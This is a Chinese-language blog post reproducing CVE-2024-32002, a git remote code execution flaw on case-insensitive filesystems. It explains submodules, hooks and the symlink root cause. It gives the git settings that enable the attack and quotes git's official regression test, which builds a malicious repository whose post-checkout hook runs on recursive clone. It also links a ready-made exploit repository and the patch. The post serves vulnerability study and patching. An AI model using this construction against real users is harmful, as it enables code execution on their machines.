 ```yaml
---
layout: post
tags: [RealWorld]
title: "CVE-2024-32002复现(git 远程代码执行)"
author: wsxk
comments: true
date: 2024-8-19
---
```



- [1. 漏洞介绍](#1-漏洞介绍)
- [2 git 基础](#2-git-基础)
	- [2.1 git clone](#21-git-clone)
	- [2.2 git submodule](#22-git-submodule)
	- [2.3 hooks](#23-hooks)
- [3. 漏洞成因分析](#3-漏洞成因分析)
- [4. 漏洞复现](#4-漏洞复现)
- [5. 补丁](#5-补丁)
- [references](#references)


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

## 1. 漏洞介绍<br>
**漏洞标题**：Git 远程代码执行漏洞（CVE-2024-32002）
**影响版本**：<br>
- version 2.45.*< 2.45.1
- version 2.44.*< 2.44.1
- version 2.43.*< 2.43.4
- version 2.42.*< 2.42.2
- version 2.41.*< 2.41.1
- version 2.40.*< 2.40.2
- version 2.39.*< 2.39.4

## 2 git 基础<br>
### 2.1 git clone<br>
首先需要知道，在使用`git clone`命令时，实际上做的命令如下:<br>
```
1、 mkdir -p <path> && cd <path> # 创建一个目录并进入
2、 git init # 初始化git仓库
3、 git remote add origin <url> # 添加远程仓库
4、 git fetch origin # 下载对象引用
5、 git checkout -b <branch> --track origin/<branch> #创建一个本地分支，并跟踪远程分支
```

### 2.2 git submodule<br>
`git submodule`用于在一个 Git 仓库中嵌入另一个 Git 仓库。子模块通常用于管理大型项目中的独立依赖项或组件，这些组件可以是独立开发的代码库。<br>
要将一个外部仓库作为子仓库添加到现有的 Git 中，需要如下命令:<br>
```
git submodule add <repository_url> <path>
<repository_url>: 外部仓库的路径，例子：https://github.com/example/repo.git
<path> ： 外部仓库存放在本仓库的目录名称
```
注意：当添加子模块后，该子模块的内容会被添加到本仓库中，`.git`虽然也会出现，但它是一个 **`符号链接，指向本仓库.git/modules/<path>`**<br>

**当我们使用git clone克隆含义子仓库的仓库时，不会自动的获取子仓库的内容**，要想获取子仓库内容，需要做如下命令:<br>
```
git submodule init # 初始化子模块配置
git submodule update # 从远程仓库获取子模块的内容
```

### 2.3 hooks<br>
`hooks`目录存在与`.git`目录下，里面存放很多shell脚本，**这些脚本会在git执行到某个阶段时被执行**<br>
举个例子，`hooks`目录中有个脚本名字叫做`commit-msg`，这个脚本就是在我们执行`git commit -m xxx`后，该消息即将被提交前，`commit-msg`会被执行。<br>
作为测试，具体的执行方法如下:<br>
```
1、将hooks中的 commit-msg.sample 中添加内容 echo "testtest"
2、将hooks目录中的 commit-msg.sample 更改为 commit-msg
3、执行git add --all && git commit -m "xxxx"
4、观察结果
```
你能观察到如下结果:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240826215850.png)


## 3. 漏洞成因分析<br>
漏洞本质上是由于：<br>
git在进行clone的时候，**由于Windows或者MacOS操作系统大小写不敏感的特点**，主仓库中**用于存放子模块的目录在下载时被另一个指向.git目录的同名符号链接覆盖，导致往子模块写入数据的时候，全部都写入了.git目录中**，最后配合hook脚本完成隐蔽的攻击。<br>


## 4. 漏洞复现<br>
漏洞复现时，需要先指向如下命令:<br>
```
# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 
```
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)这个网址提供了现成的仓库<br>
可以看一下官方验证poc<br>
```
test_expect_success CASE_INSENSITIVE_FS,SYMLINKS \
	'submodule paths must not follow symlinks' '
	# This is only needed because we want to run this in a self-contained
	# test without having to spin up an HTTP server; However, it would not
	# be needed in a real-world scenario where the submodule is simply
	# hosted on a public site.
	test_config_global protocol.file.allow always &&
	# Make sure that Git tries to use symlinks on Windows
	test_config_global core.symlinks true &&
	tell_tale_path="$PWD/tell.tale" &&
	git init hook &&
	(
		cd hook &&
		mkdir -p y/hooks &&
		write_script y/hooks/post-checkout <<-EOF &&
		echo HOOK-RUN >&2
		echo hook-run >"$tell_tale_path"
		EOF
		git add y/hooks/post-checkout &&
		test_tick &&
		git commit -m post-checkout
	) &&
	hook_repo_path="$(pwd)/hook" &&
	git init captain &&
	(
		cd captain &&
		git submodule add --name x/y "$hook_repo_path" A/modules/x &&
		test_tick &&
		git commit -m add-submodule &&
		printf .git >dotgit.txt &&
		git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
		printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
		git update-index --index-info <index.info &&
		test_tick &&
		git commit -m add-symlink
	) &&
	test_path_is_missing "$tell_tale_path" &&
	test_must_fail git clone --recursive captain hooked 2>err &&
	grep "directory not empty" err &&
	test_path_is_missing "$tell_tale_path"
'
```
官方验证poc主要做如下步骤:<br>
```
1. 创建hook仓库，创建y/hooks/post-checkout并添加到仓库中
2. 创建captain仓库，通过git submodule 将hook仓库添加到 captain仓库中的A/modules/x目录中
   captain仓库的.git文件里记录hook仓库.git的位置为.git/modules/x/y
3. 在captain仓库以底层的方式创建一个a文件(符号链接)，指向.git 并提交
4. 在git clone --recursive captain hooked后，会先拷贝captain的内容，在windows/macos中，A目录会被a替换，而a是指向.git的符号链接
   接下来在拷贝hook仓库的A/modules/x/y/hooks/post-checkout的内容时，会被拷贝到.git/modules/x/y/hooks/post-checkout
   而在git checkout执行后，执行post-checkout命令，完成利用
```

## 5. 补丁<br>
[https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)是官方补丁

## references<br>
[https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002](https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002)<br>
[先知社区cve-2024-32002复现](https://xz.aliyun.com/t/14597?time__1311=GqAhDKYKAKKBMBbGkDRiUDktGOjleox)<br>
[启明星辰](https://www.venustech.com.cn/new_type/aqtg/20240521/27479.html)<br>
[奇安信](https://www.secrss.com/articles/66299)<br>
[https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/](https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/)<br>